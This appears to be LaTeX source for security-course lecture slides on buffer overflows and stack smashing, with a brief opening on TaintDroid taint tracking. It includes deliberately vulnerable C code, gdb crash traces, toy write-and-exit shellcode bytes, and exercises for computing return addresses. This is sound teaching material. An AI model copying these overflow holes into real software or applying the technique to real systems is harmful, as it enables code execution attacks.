
\includegraphics[height=0.9\textheight]{../taint/tigress-antitaint}
\end{frame}


\subsection{taint for finding mobile leaks}
\begin{frame}{example: TaintDroid}

\includegraphics[width=\textwidth]{../taint/taintdroid}
\end{frame}

\begin{frame}{TaintDroid instrumentation}

\includegraphics[height=0.9\textheight]{../taint/taintdroid-fig1}
\end{frame}

\begin{frame}{TaintDroid resutls}

\includegraphics[width=\textwidth]{../taint/taintdroid-tbl3}
\end{frame}

\begin{frame}{TaintDroid and performance}
    \begin{itemize}
    \item modifying Dalvik ($\sim$ Java) VM allows good performance
    \item could do this sort of tracking on a ``live'' system
    \end{itemize}
\end{frame}



% FIXME: split stack smashing / interlude on stack smashing mitigations

\section{buffer overflows, generally}

\begin{frame}{typical buffer overflow pattern}
    \begin{itemize}
    \item cause program to write past the end of a buffer
    \item that somehow causes different code to run
    \item (usually code the attacker wrote)
    \end{itemize}
\end{frame}

\begin{frame}{why buffer overflows?}
    \begin{itemize}
    \item for a long time, most common vulnerability
    \item common results in arbitrary code execution
    \vspace{.5cm}
    \item related to other memory-management vulnerabilities
        \begin{itemize}
        \item which usually also result in arbitrary code execution
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{network worms and overflows}
    \begin{itemize}
    \item worms that connect to vulnerable servers:
    \vspace{.5cm}
    \item Morris worm included some buffer overflow exploits
        \begin{itemize}
        \item Morris worm: first self-replicating malware
        \item in mail servers, user info servers
        \end{itemize}
    \item 2001: Code Red worm that spread to web servers (running Microsoft IIS)
    \end{itemize}
\end{frame}

\begin{frame}{overflows without servers}
    \begin{itemize}
    \item bugs dealing with corrupt files:
    \vspace{.5cm}
    \item Adobe Flash (web browser plugin)
    \item PDF readers
    \item web browser JavaScript engines
    \item image viewers
    \item movie viewers 
    \item decompression programs
    \item \ldots
    \end{itemize}
\end{frame}




\section{simple overflow}
% FIXME: what if gets()

\begin{frame}[fragile,label=overwriteLocal1]{simpler overflow}
\lstset{
    language=C,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{@hi2@}{@endhi@}},
}
\begin{lstlisting}
struct QuizQuestion questions[NUM_QUESTIONS];
int giveQuiz() {
    int @hi2@score@endhi@ = 0;
    char @hi2@buffer@endhi@[100];
    for (int i = 0; i < NUM_QUESTIONS; ++i) {
        gets(buffer);
        if (checkAnswer(buffer, &questions[i])) {
            score += 1;
        }
    }
    return score;
}
\end{lstlisting}
\end{frame}

\begin{frame}[label=overwriteLocalStack2]{simpler overflow: stack}
\begin{tikzpicture}
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt giveQuiz}};
\draw[onStack,fill=green!20] (0, -1.25) rectangle (10, -1.75) node[midway,align=center,font=\small] {
    score (4 bytes): \only<1>{\tt 00 00 00 00}
    \only<2>{\color{red}\tt 61 61 61 00}
};
\draw[onStack,fill=blue!20] (0, -1.75) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt gets}};

\begin{visibleenv}<2>
\node[anchor=south west,font=\tt,red] at (0, -5.25) { aaaa\ldots };
\node[anchor=north east,font=\tt,red] at (10, -1.75) { \ldots aaaa};
\node[red] at (5, -3) {input: 103 {\tt a}'s ({\tt a} = {\tt 0x61})};
\end{visibleenv}
\end{tikzpicture}
\end{frame}



% FIXME: exercise: simple overflow offset
\subsection{exercise}
\begin{frame}[fragile,label=simpleOverStackLayout1]{exercise: stack layout}
\begin{tikzpicture}
\node[draw,thick] (c code) {
\begin{lstlisting}[language=C++,style=smaller]
int GradeAssignment(FILE *in) {
  int scores[10]; char buffer[16];
  for (int i = 0; i < 10; ++i) {
    gets(buffer);
    scores[i] =
        GradeAnswer(buffer, i);
  }
  Process(scores);
}
\end{lstlisting}
};
\node[draw, thick,anchor=north east] (asm code) at ([xshift=-1mm]c code.north west) {
\begin{lstlisting}[language=myasm,style=smaller,morekeywords=incl]
GradeAssignment:
  pushq   %rbp
  pushq   %rbx
  xorl    %ebx, %ebx
  subq    $72, %rsp
  leaq    8(%rsp), %rbp
for_loop:
  movq    %rbp, %rdi
  call    gets
  movl    %ebx, %esi
  movq    %rbp, %rdi
  call    GradeAnswer
  leaq    24(%rsp), %rdi
  movl    %eax, (%rdi,%rbx,4)
  incq    %rbx
  cmpq    $10, %rbx
  jne     for_loop
  call    Process
  ...
\end{lstlisting}
};
\node[draw=red,very thick,anchor=north west,align=left] at ([xshift=2mm,yshift=-2mm]c code.south west) {
exercise: how many bytes after \\
\texttt{buffer[0]} is the first byte \\
of \texttt{scores[0]}?
\iftoggle{heldback}{}{\only<2>{answer: 16}}
};
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=simpleOverStackLayout2]{exercise: overflow?}
\begin{tikzpicture}
\node[draw,thick] (c code) {
\begin{lstlisting}[language=C++,style=smaller]
int GradeAssignment(FILE *in) {
  int scores[10]; char buffer[16];
  for (int i = 0; i < 10; ++i) {
    gets(buffer);
    scores[i] =
        GradeAnswer(buffer, i);
  }
  Process(scores);
}
\end{lstlisting}
};
\node[draw, thick,anchor=north east] (asm code) at ([xshift=-1mm]c code.north west) {
\begin{lstlisting}[language=myasm,style=smaller,morekeywords=incl]
GradeAssignment:
  pushq   %rbp
  pushq   %rbx
  xorl    %ebx, %ebx
  subq    $72, %rsp
  leaq    8(%rsp), %rbp
for_loop:
  movq    %rbp, %rdi
  call    gets
  movl    %ebx, %esi
  movq    %rbp, %rdi
  call    GradeAnswer
  leaq    24(%rsp), %rdi
  movl    %eax, (%rdi,%rbx,4)
  incq    %rbx
  cmpq    $10, %rbx
  jne     for_loop
  call    Process
  ...
\end{lstlisting}
};
\node[draw=red,very thick,anchor=north west,align=left] at ([xshift=2mm,yshift=-2mm]c code.south west) {
exercise: if input into buffer is \\
50 copies of the character \texttt{'1'} \\
what is value of \texttt{scores[0]}?
\iftoggle{heldback}{}{\only<2>{\\answer: 0x31313131}}
};
\end{tikzpicture}
\end{frame}



\section{stack smashing, high-level}

\begin{frame}{Stack Smashing}
    \begin{itemize}
    \item original, most common buffer overflow \myemph{exploit}
    \item worked for most buffers on the stack
        \begin{itemize}
        \item (``work\myemph{ed}''? we'll talk later)
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=smashing]{Aleph1, Smashing the Stack for Fun and Profit}
    \begin{itemize}
    \item ``non-traditional literature''; released 1996
    \item by Aleph1 AKA Elias Levy
    \end{itemize}
\begin{Verbatim}[fontsize=\scriptsize]
                               .oO Phrack 49 Oo.

                          Volume Seven, Issue Forty-Nine
                                     
                                  File 14 of 16

                      BugTraq, r00t, and Underground.Org
                                   bring you

                     XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
                     Smashing The Stack For Fun And Profit
                     XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

                                 by Aleph One
                             aleph1@underground.org
\end{Verbatim}
\end{frame}


\subsection{example of overflow}

\begin{frame}[fragile,label=vulnCAgain]{vulnerable code}
\lstset{language=C,style=small}
\begin{lstlisting}
void vulnerable() {
    char buffer[100];

    // read string from stdin
    scanf("%s", buffer);

    do_something_with(buffer);
}
\end{lstlisting}
\begin{itemize}
\item<2> \myemph<2>{what if I input 1000 character string?}
\end{itemize}
\end{frame}


\begin{frame}[fragile,label=charSegfault]{1000 character string}
\begin{Verbatim}[fontsize=\fontsize{9}{10}\selectfont,commandchars=\\\{\}]
$ cat 1000-as.txt
aaaaaaaaaaaaaaaaaaaaaaaa\textit{\normalfont (1000 a's total)}
$ ./vulnerable.exe <1000-as.txt
Segmentation fault (core dumped)
$ 
\end{Verbatim}
\end{frame}


\begin{frame}[fragile,label=charDebug]{1000 character string -- debugger}
\begin{Verbatim}[fontsize=\fontsize{9}{10}\selectfont,commandchars=\\\[\]]
$ gdb ./vulnerable.exe 
...
Reading symbols from ./overflow.exe...done.
(gdb) run <1000-as.txt 
Starting program: /home/cr4bd/spring2017/cs4630/slides/20170220/overflow.exe <1000-as.txt

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400562 in vulnerable () at overflow.c:13
13      }
(gdb) backtrace
#0  0x0000000000400562 in vulnerable () at overflow.c:13
#1  0x6161616161616161 in ?? ()
#2  0x6161616161616161 in ?? ()
#3  0x6161616161616161 in ?? ()
#4  0x6161616161616161 in ?? ()
...
...
...
#108 0x6161616161616161 in ?? ()
#109 0x6161616161616161 in ?? ()
#110 0x6161616161616161 in ?? ()
#111 0x0000000000000000 in ?? ()
(gdb) 
\end{Verbatim}
\end{frame}

\begin{frame}[fragile,label=vulnAsm]{vulnerable code --- assembly}
\lstset{language=myasm,style=small}
\begin{lstlisting}
vulnerable:
  subq	$120, %rsp  /* allocate 120 bytes on stack */
  movq	%rsp, %rsi  /* scanf arg 1 = rsp = buffer */
  movl	$.LC0, %edi /* scanf arg 2 = "%s" */
  xorl    %eax, %eax  /* eax = 0 (see calling convention) */
  call	__isoc99_scanf  /* call to scanf() */
  movq	%rsp, %rdi
      /* do_something_with arg 1 = rsp = buffer */
  call	do_something_with
  addq	$120, %rsp  /* deallocate 120 bytes from stack */
  ret
...
.LC0:
  .string "%s"
\end{lstlisting}
\begin{itemize}
\item<2> exercise: stack layout when scanf is running
\end{itemize}
\end{frame}



\subsubsection{exercise: stack layout}
\begin{frame}[fragile,label=smashExStackLayoutExer]{exercise: stack layout}
\lstset{language=myasm,style=small}
\begin{lstlisting}
vulnerable:
 subq	$120, %rsp  /* allocate 120 bytes on stack */
 movq	%rsp, %rsi  /* scanf arg 1 = rsp = buffer */
 movl	$.LC0, %edi /* scanf arg 2 = "%s" */
 xorl    %eax, %eax  /* eax = 0 (see calling convention) */
 call	__isoc99_scanf  /* call to scanf() */
 movq	%rsp, %rdi  /* arg 1 = buffer = rsp */
 call	do_something_with /* do_something(buffer)
 addq	$120, %rsp  /* deallocate 120 bytes from stack */
 ret
\end{lstlisting}
\begin{itemize}
\item when scanf is running, distance from buffer[0] to scanf's return address?
\item when scanf is running, distance from buffer[0] to vulnerable's return address?
\end{itemize}
\end{frame}


\subsubsection{exercise answer: stack layout}
\usetikzlibrary{arrows.meta}

\begin{frame}[fragile,label=vulnStack]{vulnerable code --- stack usage}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    xscale=1.3,
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small]
     {return address for {\tt vulnerable}: \\ \tt 41 02 40 00 00 00 00 00 (0x400241)};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (20 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\begin{visibleenv}<2->
    \draw[onStack,fill=red!20,opacity=0.9] (0, -5.25) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {{\tt 61 61 61 61 61 61 61 \ldots} (was buffer + unused)};
    \node[red,at={(5, -1.25)},anchor=north,fill=black!20,align=right,font=\tt\fontsize{9}{10}\selectfont\bfseries] {
        61 61 $\;$ 61 61  61 61 61 61  61 61 \\ 61 61  61 61 61 61  61 61 
    };
\end{visibleenv}
\begin{visibleenv}<3->
    \node[inner sep=0.5mm,red,at={(5, -0.75)},anchor=north,fill=white,align=right,font=\tt\fontsize{10}{11}\selectfont\bfseries] {
        61 61 61 61  61 61 61 61 (0x6161616161616161)
    };
\end{visibleenv}
\begin{visibleenv}<4->
    \node[draw,thick,red,at={(5, -0.25)},minimum width=13cm,anchor=south,fill=black!20,align=right,font=\tt\fontsize{9}{10}\selectfont\bfseries] {
        \strut\only<4>{\ldots}\only<5->{\normalfont debugger's guess: return address for {\tt 0x6161\ldots6161}:} \\ 61 61 61 61  61 61 61 61
    };
\end{visibleenv}
\end{tikzpicture}
\end{frame}




\subsubsection{crash, revisited}

\begin{frame}[fragile,label=theCrash]{the crash}
\begin{Verbatim}[fontsize=\fontsize{9}{10}\selectfont,commandchars=\\\[\]]
   0x0000000000400548 <+0>:     sub    $0x78,%rsp
   0x000000000040054c <+4>:     mov    %rsp,%rsi
   0x000000000040054f <+7>:     mov    $0x400604,%edi
   0x0000000000400554 <+12>:    mov    $0x0,%eax
   0x0000000000400559 <+17>:    callq  0x400430 <__isoc99_scanf@plt>
   0x000000000040055e <+22>:    add    $0x78,%rsp
=> 0x0000000000400562 <+26>:    retq   
\end{Verbatim}
\begin{itemize}
\item {\tt retq} tried to jump to {\tt 0x61616161 61616161}
\item \ldots but there was nothing there
\item<2-> what if it wasn't invalid?
\end{itemize}
\end{frame}




\subsection{return-to-stack}

\begin{frame}[fragile,label=returnToStack]{return-to-stack}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    xscale=1.3,
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\ \fontsize{10}{11}\selectfont\tt\bfseries\color{red}70 fd ff ff  ff ff 00 00 (0x7fff ffff fd70)};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (20 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\begin{visibleenv}<2>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}

\end{tikzpicture}
\end{frame}



\section{constructing return-to-stack}

\begin{frame}<1>[label=makeAttack]{constructing the attack}
\begin{itemize}
\item \myemph<2>{write ``shellcode'' --- machine code to execute}
    \begin{itemize}
    \item often called ``shellcode'' because often intended to get login shell
    \item (when in a remote application)
    \end{itemize}
\item \myemph<3>{identify memory address of shellcode in buffer}
\item \myemph<4>{insert overwritten return address value}
\end{itemize}
\end{frame}



\subsection{writing shellcode}
\againframe<2>{makeAttack}

\begin{frame}{shellcode challenges}
\begin{itemize}
\item ideal is like virus code: works in any executable
\item no linking --- no library functions by name
\item probably exit application --- can't return normally
    \begin{itemize}
    \item (or a bunch more work to restore original return value)
    \end{itemize}
\end{itemize}
\end{frame}





\begin{frame}[fragile,label=virusCodeRecall]{recall: virus code}
\lstset{
    language=myasm,
    style=small,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
}
\begin{tikzpicture}
\node (code) {
\begin{lstlisting}
    /* Linux system call
        write(1, "You have been infected with a virus!\n", 37)
     */
virus:
    movl $1, %eax  // 1 = SYS_write
    movl $1, %edi  // system call first argument = stdout
    leal string(%rip), %esi // system call second argument = string
    movl $37, %edx // system call third argument = length of string
    syscall
    retq
string: 
    .asciz "You have been infected with a virus!\n"
\end{lstlisting}
};
\end{tikzpicture}
\end{frame}

 % FIXME: modify to match TRICKY


\begin{frame}[fragile,label=virusToShellNew1]{virus code to shell-code (1)}
\lstset{
    language=myasm,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
}
\begin{tikzpicture}
\node (code) {
\begin{lstlisting}
    /* Linux system call (OS request):
       write(1, string, length)
     */
    leaq string(%rip), %rsi
    movl $1, %eax
    movl $37, %edi
    /* "request to OS" instruction */
    syscall
    ~2~ret~end~
string: 
    .asciz "You have been infected with a virus!\n"
\end{lstlisting}
};
\coordinate (codeExplain) at ([xshift=-3cm]code.north east);
\begin{visibleenv}<2>
\node[anchor=north west,red,ultra thick,align=left,draw=red,fill=white] at (codeExplain) {
    problem: after syscall --- crash!
};
\end{visibleenv}

\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=virusToShellNew2]{virus code to shell-code (2)}
\lstset{
    language=myasm,
    style=smaller,
    basicstyle=\tt\fontsize{9}{10}\selectfont,
    keywordstyle=\tt\fontsize{9}{10}\selectfont\keywordstyle,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
}
\begin{tikzpicture}
\node (code) {
\begin{lstlisting}
    /* Linux system call (OS request):
       write(1, string, length)
     */
    leaq string(%rip), %rsi
    movl $1, %eax
    movl $37, %edi
    syscall
    /* Linux system call:
       exit_group(0)
     */
    ~2~movl $231, %eax~end~
    ~2~xor %edi, %edi~end~
    ~2~syscall~end~
string: 
    .asciz "You have been infected with a virus!\n"
\end{lstlisting}
};
\begin{visibleenv}<3->
\node[anchor=north west,align=left] (bits) at ([xshift=-2cm]code.north east) {
\begin{lstlisting}[
    language=,
    moredelim={**[is][]{*}{*}},
]
* *
* * 
* * 
48 8d 35 15 00 00 00
b8 01 00 00 00
bf 25 00 00 00
0f 05
* *
* *
* *
b8 e7 00 00 00
31 ff
0f 05
\end{lstlisting}
};
\end{visibleenv}
\coordinate (codeExplain) at ([xshift=-3cm]code.north east);
\begin{visibleenv}<2>
\node[anchor=north west,draw=red,ultra thick,fill=white] at (codeExplain) {
    tell OS to exit
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}

 % FIXME: modify to match TRICKY (need less here)

\subsection{setting return address}
\againframe<3>{makeAttack}
    % FIXME: diagram showing stack distance
\usetikzlibrary{arrows.meta,decorations.pathmorphing,decorations.pathreplacing,patterns}

\begin{frame}[fragile,label=setRetAddrDiag]{setting return address (diagram)}
\begin{tikzpicture}
\tikzset{
    stack edge/.style={draw,very thick},
    stack region/.style={},
    stack region label/.style={font=\small},
    mark line/.style={draw,thick,Latex-},
    stack region hilite/.style={draw,decorate,decoration={brace},very thick},
    measure region/.style={draw,ultra thick,Latex-Latex},
}
\path [stack edge] (0, -7) -- (0, 0) -- (6, 0) -- (6, -7);
\path [stack edge,decorate,decoration=zigzag] (0, -7) -- (6, -7);
\path [mark line,alt=<2>{red,ultra thick}] (6, 0) coordinate (init stack mark) -- ++(1, 0) node[right] (init stack label) {initial stack pointer};
\begin{visibleenv}<2>
    \node[anchor=north west,text=red,align=left] at ([yshift=.25cm,xshift=1cm]init stack label.south west) {
        assumption for now: \\
        fixed initial location
    };
\end{visibleenv}
\begin{pgfonlayer}{bg}
    \path [fill=blue!30] (0, 0) rectangle ++(6, -1) node [midway,stack region label] {main's stuff};
    \path [fill=violet!30] (0, -1) rectangle ++(6, -1);
    \path [fill=orange!30] (0, -2) rectangle ++(6, -1);
    \path [fill=green!30] (0, -3) rectangle ++(6, -1);
    \node[stack region label,rotate=40] at (3, -2.5) {other functions};
    \path [fill=red!30] (0, -4) rectangle ++(6, -.5) coordinate (before vulnerable mark);
        \node[anchor=west,stack region label] at (0, -4.25) {vulnerable return addr};
    \path [fill=yellow!30] (0, -4.5) rectangle ++(6, -1);
        \node[anchor=west,stack region label] at (0, -5) {vulnerable buffer};
    \path [fill=magenta!30] (0, -5.5) rectangle ++(6, -0.5) coordinate (after vulnerable mark);
        \node[anchor=west,stack region label] at (0, -5.75) {other vars in vulnerable func};
    \path [fill=violet!30] (0, -5.9) rectangle ++(6, -0.5) node[midway,stack region label] {scanf's stuff};
    \begin{visibleenv}<3->
        \path[pattern=north west lines,pattern color=red,opacity=0.5]
            (0, -3.5) rectangle (6, -5.5);
    \end{visibleenv}
    \begin{visibleenv}<3>
        \path[red,stack region hilite] (6.25, -3.5) -- (6.25, -5.5)
            node[midway,right] {written by attack (including overflow)};
    \end{visibleenv}
\end{pgfonlayer}
    \begin{visibleenv}<4->
        \path[mark line,alt=<4>{red}] (6, -5.4) coordinate (shellcode mark)-- ++(1, 0) node[right,align=left,yshift=-.35cm] {location of shellcode \\ \small (if at start of attack input)};
    \end{visibleenv}
    \begin{visibleenv}<5>
        \path[measure region,red] ([xshift=.25cm]init stack mark) -- ([xshift=.25cm]shellcode mark)
            node[midway,right,align=left] {
                compute this distance? \\
                could carefully read assembly of relevant functions
            };
    \end{visibleenv}
    \begin{visibleenv}<6-7>
        \path[measure region,alt=<6>{red}] ([xshift=.25cm]before vulnerable mark) -- ([xshift=.25cm]shellcode mark)
            node[midway,right,align=left,font=\small,alt=<7>{opacity=0}] {
                compute this distance? \\
                read \texttt{vulernable's} assembly
            };
        \path[mark line] (before vulnerable mark) -- ++(1,0)
            node[right,alt=<7>{red}] {
                stack pointer from start of vulnerable
            };
    \end{visibleenv}
    \begin{visibleenv}<7>
        \node[anchor=north west,draw=red,very thick,font=\small] at (6.5, -.5){
\begin{lstlisting}[language={},basicstyle=\fontsize{9}{10}\selectfont]
(gdb) b vulnerable
Breakpoint 1 at 0x1169
(gdb) run
...
Breakpoint 1, vulnerable ()
(gdb) info registers
...
rsp            0x7fffffffddc8      0x7fffffffddc8
...
\end{lstlisting}
        };
    \end{visibleenv}
\end{tikzpicture}
\end{frame}

% FIXME: slides showing 
    % breakpoint set in main, breakpoint set in vulnerable, etc.
    % FIXME: exercise: breakpoint set in vulnerable, shellcode at start of buffer, what address?


\subsubsection{exercise}
\begin{frame}[fragile,label=setRetExercise]{exercise: shellcode location (1)}
\begin{tikzpicture}
\node (code) {
\begin{lstlisting}[language=C++,style=smaller]
void getInitials(char *init) {
    char first[50]; char second[50];
    scanf("%s%s", first, second);
    init[0] = first[0];
    init[1] = second[0];
}
\end{lstlisting}
};
\node[anchor=north west] (asm) at ([xshift=.2cm]code.north east) {
\begin{lstlisting}[language=myasm,style=smaller]
0x1189: push %rbx
xor    %eax,%eax
mov    %rdi,%rbx
// lea "%s%s" -> %rdi
lea    0xe6e(%rip),%rdi 
sub    $0xa0,%rsp
// &second[0] -> %rdx
lea    0x50(%rsp),%rdx 
// &first[0] -> %rsi
mov    %rsp,%rsi
call   __isoc99_scanf@plt
mov    (%rsp),%al
mov    %al,(%rbx)
mov    0x50(%rsp),%al
mov    %al,0x1(%rbx)
add    $0xa0,%rsp
pop    %rbx
ret 
\end{lstlisting}
};
\node[anchor=north west] (debug) at (code.south west) {
\begin{lstlisting}[language=myasm,style=script]
(gdb) b getInitials
Breakpoint 1 at 0x1189
(gdb) run
Starting program: example

Breakpoint 1, 0x0000555555555189 in getInitials ()
(gdb) info registers rsp
rsp            0x7fffffffdd98      0x7fffffffdd98
\end{lstlisting}
};
\begin{visibleenv}<2>
\node[draw=red,thick,anchor=north west,align=left] at (debug.south west) {
exercise: if shellcode at beginning of `first' \\
what is its address going to be? 
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}


\subsubsection{exercise (alt)}
\begin{frame}[fragile,label=setRetExerciseAlt]{exercise: shellcode location (2)}
\begin{tikzpicture}
\node (code) {
\begin{lstlisting}[language=C++,style=smaller]
void getInitials(char *init) {
    char first[50]; char second[50];
    scanf("%s%s", first, second);
    init[0] = first[0];
    init[1] = second[0];
}
\end{lstlisting}
};
\node[anchor=north west] (asm) at ([xshift=.2cm]code.north east) {
\begin{lstlisting}[language=myasm,style=smaller]
0x1189: push %rbx
xor    %eax,%eax
mov    %rdi,%rbx
// lea "%s%s" -> %rdi
lea    0xe6e(%rip),%rdi 
sub    $0xa0,%rsp
// &second[0] -> %rdx
lea    0x50(%rsp),%rdx 
// &first[0] -> %rsi
mov    %rsp,%rsi
call   __isoc99_scanf@plt
mov    (%rsp),%al
mov    %al,(%rbx)
mov    0x50(%rsp),%al
mov    %al,0x1(%rbx)
add    $0xa0,%rsp
pop    %rbx
ret 
\end{lstlisting}
};
\node[anchor=north west] (debug) at (code.south west) {
\begin{lstlisting}[language=myasm,style=script]
(gdb) b __isoc99_scanf@plt
Breakpoint 1 at 0x1040
(gdb) run
Starting program: example

Breakpoint 1, 0x0000555555555040 in __isoc99_scanf@plt ()
(gdb) info registers rsp
rsp            0x7fffffffdc88      0x7fffffffdc88
\end{lstlisting}
};
\begin{visibleenv}<2>
